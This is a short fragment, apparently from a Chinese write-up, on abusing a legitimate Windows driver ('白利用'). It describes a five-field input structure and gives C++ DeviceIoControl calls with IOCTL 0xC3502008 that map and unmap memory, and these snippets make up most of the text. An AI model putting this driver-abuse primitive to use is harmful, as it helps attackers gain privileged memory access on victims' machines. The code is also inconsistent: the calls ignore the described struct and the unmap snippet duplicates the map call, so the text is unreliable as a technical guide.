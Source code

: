 白利用：

通过函数中的变量初始化来看，一共接收了 5 个参数，分别为

1.  type 0x0
2.  size 0x4
3.  Adress 0x8
4.  Flag 0x10
5.  ViewSize 0x14

也就是说需要传入一个结构体：

```plain
typedef struct conn{

ULONG type;
ULONG size;
ULONG64 Address;
ULONG Flag;
ULONG viewSize;

}
```

那么建立映射的代码则如下所示：

```plain
ULONG64 Input = address;

       ULONG64 Output[2] = { 0 };



       ULONG returned = 0;



       DeviceIoControl(hHandle, 0xC3502008, reinterpret_cast<LPVOID>(&Input), 
sizeof(Input),

              reinterpret_cast<LPVOID>(Output), sizeof(Output), &returned, 
NULL);



       return Output[0];
```

取消映射：

```plain
ULONG64 Input = address;

       ULONG64 Output[2] = { 0 };



       ULONG returned = 0;



       DeviceIoControl(hHandle, 0xC3502008, reinterpret_cast<LPVOID>(&Input), 
sizeof(Input),

              reinterpret_cast<LPVOID>(Output), sizeof(Output), &returned, 
NULL);


```